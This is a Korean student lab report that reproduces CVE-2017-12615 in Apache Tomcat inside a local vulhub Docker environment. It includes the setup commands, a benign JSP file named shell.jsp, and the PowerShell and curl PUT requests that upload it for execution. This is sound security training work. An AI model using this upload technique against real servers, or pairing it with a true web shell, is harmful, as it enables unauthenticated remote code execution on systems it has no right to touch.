

# CVE-2017-12615: Apache Tomcat PUT 메서드 취약점 PoC 보고서
---
화이트햇 스쿨 3기 손범규_8279
---
## 🔒 CVE 정보

- **CVE ID**: CVE-2017-12615
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.79 (Windows) 에서 HTTP PUT 메서드가 활성화된 경우, 인증 없이 JSP 파일 업로드 가능.
- **공식 설명**: https://nvd.nist.gov/vuln/detail/CVE-2017-12615

## 테스트 환경 구성

### 사용 도구

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- PowerShell (Invoke-WebRequest 사용)

### 실행 절차
1. 'vulhub' 레포 클론
- 공식 vulhub 저장소를 로컬에 클론하여 환경 설정을 시작합니다.
```powershell
git clone https://github.com/vulhub/vulhub.git
```


2. 취약 환경 디렉토리 이동
- 관련된 도커파일(Dockerfile, docker-compose.yml 등)이 위치한 폴더로 이동합니다.
```powershell
cd vulhub/tomcat/CVE-2017-12615
```


3. docker 환경 실행
- 컨테이너가 백그라운드에서 실행되며, localhost:8080 포트에서 Tomcat 서버가 실행됩니다.


4. jsp 파일 생성(shell.jsp)
- 이 JSP 파일은 업로드한 후 실행하면, 브라우저에서 PoC Success!라는 문구가 출력됩니다.
- 파일을 프로젝트 루트에 저장: Tomcat/CVE-2017-12615/shell.jsp
```jsp
<% out.println("PoC Success!"); %>
```
5. 파일 업로드
- Windows 환경에서는 PowerShell에서 curl 대신 Invoke-WebRequest를 사용하여 .jsp 파일을 업로드할 수 있습니다.
```markdown
### POWER SHELL 환경
Invoke-WebRequest -Uri "http://localhost:8080/shell.jsp/" `
  -Method Put `
  -InFile ".\shell.jsp" `
  -ContentType "application/octet-stream"
### 다른 환경
curl -X PUT "http://localhost:8080/shell.jsp/" --data-binary @shell.jsp
```


6. 브라우저로 PoC 확인
- 브라우저 주소창에 다음 주소 입력
- J SP가 정상적으로 업로드되어 실행되면 "PoC Success!" 문구가 출력됩니다.
```markdown
http://localhost:8080/shell.jsp
```


## 결론
이번 실습에서는 Apache Tomcat의 PUT 요청 취약점을 재현하고, 실제로 .jsp 파일을 업로드하여 PoC에 성공했습니다.
Docker 환경을 통해 손쉽게 구축할 수 있었으며, JSP 파일 실행을 통해 원격 코드 실행(RCE) 가능성을 직접 확인하였습니다.
